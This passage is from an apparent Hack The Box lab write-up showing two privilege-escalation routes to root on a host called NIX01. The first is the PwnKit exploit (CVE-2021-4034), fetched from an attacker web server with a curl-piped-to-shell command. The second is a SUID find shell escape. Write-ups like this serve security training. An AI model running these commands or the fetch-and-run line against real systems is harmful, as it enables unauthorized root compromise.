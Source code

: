 There many different methods to privesc to `root`;
- [CVE-2021-4034] PwnKit
- SUID set `find` command

Also, I can see that the port 80 is open to service while not open to external.
I can get this page through pivoting or tunneling later.

##### Shell as  `root` on NIX01

1. Privesc through PwnKit

First, let's prepare repository.
Here's the link of it:
https://github.com/ly4k/PwnKit.git

I need to modify `PwnKit.sh` to download `PwnKit` binary not from online but Kali webserver.

Upload it through python webserver.

```bash
┌──(kali㉿kali)-[~/htb/PwnKit]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.110.100 - - [04/Jan/2025 07:44:04] "GET /PwnKit.sh HTTP/1.1" 200 -
10.10.110.100 - - [04/Jan/2025 07:44:04] "GET /PwnKit HTTP/1.1" 200 -
```

Download and run it.

```bash
balthazar@DANTE-WEB-NIX01:~/Documents$ sh -c "$(curl -fsSL http://10.10.14.14:8000/PwnKit.sh)"
root@DANTE-WEB-NIX01:/home/balthazar/Documents# id
uid=0(root) gid=0(root) groups=0(root),1002(balthazar)
root@DANTE-WEB-NIX01:/home/balthazar/Documents# whoami
root
```

Here I identify **Privilege Escalation Vector via `PwnKit`** vulnerability.
I got `root`!

2. Privesc through SUID `find`

The target has `find` command SUID bit enabled.
According to GTFOBins, I can exploit it to privesc to `root`.

```bash
balthazar@DANTE-WEB-NIX01:~/Documents$ find . -exec /bin/sh -p \; -quit
# id
uid=1002(balthazar) gid=1002(balthazar) euid=0(root) groups=1002(balthazar)
# whoami
root
```

This is a **Privilege Escalation Vector via `find`** vulnerability.

I got `root`!